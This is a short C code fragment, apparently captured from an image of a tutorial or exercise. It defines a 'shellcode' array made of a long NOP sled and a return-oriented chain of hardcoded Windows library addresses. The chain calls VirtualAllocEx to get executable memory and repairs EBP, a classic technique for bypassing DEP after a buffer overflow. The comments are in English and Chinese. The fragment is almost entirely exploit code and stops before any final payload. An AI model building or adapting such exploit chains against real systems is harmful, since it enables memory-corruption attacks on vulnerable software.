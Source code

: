 ```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
```